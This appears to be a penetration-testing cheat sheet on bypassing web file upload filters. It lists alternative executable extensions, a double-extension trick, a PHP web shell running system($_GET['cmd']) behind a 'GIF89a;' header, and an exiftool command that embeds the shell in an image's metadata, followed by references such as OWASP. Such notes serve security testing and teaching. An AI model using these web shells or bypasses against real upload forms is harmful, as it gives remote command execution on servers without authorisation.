 # Bypassing File Upload Filtering

## Rename it

* rename the shell and upload it as shell.php.jpg
* it can pass the filter and the file is executed as php

### PHP

* phtml
* .php
* .php3
* .php4
* .php5
* .inc

### asp

* asp
* .aspx

### Perl

* .pl
* .pm
* .cgi
* .lib

### jsp

* .jsp
* .jspx
* .jsw
* .jsv
* .jspf

### Coldfusion

* .cfm
* .cfml
* .cfc
* .dbm

## GIF89a;

* If the content is checked, add the text "GIF89a;" before you shell code

```bash
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```

## In Image

* exiftool is a great tool to view and manipulate exif-data

```bash
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```

### Then Rename the File

```bash
mv lo.jpg lo.php.jpg
```

## References and More Things to Read

* [http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html](http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html)
* [https://www.owasp.org/index.php/Unrestricted\_File\_Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload)
* [http://repository.root-me.org/Exploitation - Web/EN - Webshells In PHP, ASP, JSP, Perl, And ColdFusion.pdf](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Webshells%20In%20PHP,%20ASP,%20JSP,%20Perl,%20And%20ColdFusion.pdf)
* [https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf)
* [https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/](https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/)
* [http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html](http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html)
* [http://www.net-informations.com/faq/asp/validation.htm](http://www.net-informations.com/faq/asp/validation.htm)
* [https://owasp.org/www-community/vulnerabilities/Unrestricted\_File\_Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
* [https://www.sitepoint.com/mime-types-complete-list/](https://www.sitepoint.com/mime-types-complete-list/)
* [https://www.w3schools.com/php/php\_file\_upload.asp](https://www.w3schools.com/php/php_file_upload.asp)
* [https://en.wikipedia.org/wiki/List\_of\_file\_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)

